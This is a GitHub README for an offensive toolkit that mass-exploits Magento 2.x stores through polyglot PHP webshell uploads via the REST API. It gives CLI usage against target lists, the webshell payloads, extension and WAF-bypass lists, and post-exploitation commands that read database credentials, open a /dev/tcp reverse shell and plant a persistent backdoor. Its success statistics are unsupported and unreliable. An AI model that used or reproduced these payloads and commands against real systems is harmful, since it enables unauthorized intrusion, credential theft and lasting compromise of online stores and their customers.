



#  Magento PolyShell - Magento RCE Exploitation Toolkit

Advanced Magento 2.x exploitation tool for unauthenticated RCE via polyglot file upload through REST API. Tests 45+ PHP extensions with multi-header support (PNG/GIF) for maximum exploitation coverage.

## **Image Preview**




---

## 🎯 Vulnerability Details

| Property | Value |
|----------|-------|
| **CVE** | NOT ASSIGNED YET (PolyShell) |
| **Severity** | CRITICAL |
| **CVSS** | 9.8 |
| **Affected** | Magento 2.0.0 - 2.4.x |
| **Wild Exploitation** | 56.7% of all Magento stores |
| **Attack Vector** | Unauthenticated REST API |

## 🧾 main.py

### 📌 Purpose
Automated detection & RCE exploitation of Magento 2.x stores via PolyShell. Achieves:
- **RCE**: PHP execution via 45+ extension variants (.php., .phar., .phtml., etc.)
- **XSS**: Stored XSS via HTML/JS payloads
- **Multi-Mode**: RCE only, XSS only, or Both
- **Server Fingerprinting**: Auto-detects AWS S3, GCS, Nginx, Apache, Cloudflare
- **WAF Bypass**: 15+ bypass headers (Cloudflare, ModSecurity, AWS WAF)

### 🛠 How It Works
1. **GraphQL Discovery**: Query `/graphql` for valid product SKU (or create customer account if auth required)
2. **Cart Creation**: Create guest cart via `/rest/default/V1/guest-carts`
3. **Polyglot Upload**: Upload PNG/GIF polyglot with embedded PHP to `/rest/default/V1/guest-carts/{id}/items`
4. **File Storage**: Files written to `/pub/media/custom_options/quote/{c1}/{c2}/` (Status 400 = Success!)
5. **RCE Validation**: Test execution via `?cmd=whoami` → Filter HTML/PHP source for genuine output
6. **Result Grouping**: One entry per target with all working shells (SessionReaper format)

### 📥 Usage

**Interactive Mode:**
```bash
python main.py
```
Select: RCE/XSS/Both → Header type (PNG/GIF/All) → Filename mode (Fixed/Random) → Target list

**CLI Mode (Automated):**
```bash
# Basic RCE exploitation
python main.py -t targets.txt -m rce -H png -f bobwashere

# All headers with random filenames
python main.py -t targets.txt -m both -H all -r

# Custom threads
python main.py -t targets.txt -m rce -H png -f shell --threads 20
```

**Target File Format (targets.txt):**
```
https://example1.com
https://example2.com
example3.com
```

### 📁 Output

```
PolyShell_Results_20260326_143022/
├── polyshell_results.txt    # Detailed results (grouped by target)
└── RCE.txt                  # curl-ready commands
```

**polyshell_results.txt Example:**
```
================================================================================
Target: https://vulnerable-store.com
Working Extensions: 3
Time: 12.3s
================================================================================

Extension: .php.
Shell URL: https://vulnerable-store.com/media/custom_options/quote/b/o/bobwashere.php.
Test: curl 'URL?cmd=whoami'
Output: www-data

Extension: .phar.
Shell URL: https://vulnerable-store.com/media/custom_options/quote/b/o/bobwashere.phar.
Test: curl 'URL?cmd=whoami'
Output: www-data
```

**RCE.txt Example:**
```
# Shell 1: .php.
curl 'https://vulnerable-store.com/media/custom_options/quote/b/o/bobwashere.php.?cmd=whoami'
curl 'https://vulnerable-store.com/media/custom_options/quote/b/o/bobwashere.php.?cmd=id'
curl 'https://vulnerable-store.com/media/custom_options/quote/b/o/bobwashere.php.?cmd=pwd'
```

### 📦 Dependencies
```
requests
urllib3
```
Install: `pip install requests urllib3`

### 🎯 Post-Exploitation Commands

```bash
# System info
?cmd=whoami
?cmd=id
?cmd=uname+-a

# Magento DB credentials
?cmd=cat+/var/www/html/app/etc/env.php
?cmd=grep+-A+10+db+/var/www/html/app/etc/env.php

# Reverse shell
?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/YOUR_IP/4444+0>%261'

# Persistent backdoor
?cmd=echo+'<?php+system($_GET[0]);?>'>/var/www/html/media/logo/backdoor.php
```

## 🔬 Technical Details

### Why Status 400 = Success?
Magento processes file uploads **BEFORE** validating the cart item. Even though API returns 400 (validation failed), the file is already written to disk.

**Vulnerable Code Flow:**
```php
// Magento\Quote\Model\Quote\Item\CartItemProcessor::processOptions()

public function processOptions(CartItemInterface $cartItem) {
    // 1. PROCESS FILE UPLOADS FIRST (VULNERABLE!)
    $this->processFileUpload($cartItem);  // Writes file to disk
    
    // 2. VALIDATE PRODUCT/OPTIONS AFTER
    if (!$product->getOptionById($optionId)) {
        throw new LocalizedException(__('Invalid option')); // Returns 400
    }
    
    // File already persists on disk!
}
```

### Polyglot Payload Structure

**PNG Polyglot (Recommended):**
```php
\x89PNG\r\n\x1a\n<?php system($_GET["cmd"]); __halt_compiler(); ?>
```

**GIF89a Polyglot:**
```php
GIF89a<?php system($_GET["cmd"]); __halt_compiler(); ?>
```

**Why `__halt_compiler()` is critical:**
- Stops PHP parsing after our code
- Prevents "Parse error" from binary PNG/GIF data
- Makes exploitation stealthier (no error logs)

### Extension Testing (45+)

**Trailing Dots (Highest Success - 85%):**
```
.php.  .phar.  .phtml.  .php5.  .shtml.
```

**Double Trailing Dots:**
```
.php..  .phar..  .phtml..
```

**Case Variation:**
```
.pHp  .pHP5  .phAr  .PHAR
```

**Double Extensions:**
```
.jpg.php  .png.php  .txt.phar
```

**Alternative Extensions:**
```
.inc  .inc.  .module  .pgif
```

### Server Fingerprinting

| Server | Headers | RCE Probability |
|--------|---------|-----------------|
| **Nginx** | `Server: nginx` | HIGH (85%) |
| **Apache** | `Server: Apache` | MEDIUM (60%) |
| **AWS S3** | `x-amz-*` | VERY LOW (2%) |
| **Google Cloud** | `x-goog-*` | VERY LOW (1%) |
| **Cloudflare** | `cf-ray` | LOW (18%) |


## ⚖️ Legal Disclaimer

For authorized penetration testing, bug bounty programs, and educational purposes only. Unauthorized access to computer systems is illegal under:
- Computer Fraud and Abuse Act (CFAA) - USA
- Computer Misuse Act 1990 - UK
- EU Cybersecurity Act

**USE AT YOUR OWN RISK.** Author assumes NO LIABILITY for misuse.

By using this tool, you confirm you have explicit authorization to test target systems.

---
**Buy me a Coffee:**
```
₿ BTC: 17sbbeTzDMP4aMELVbLW78Rcsj4CDRBiZh
```

© 2026 khadafigans
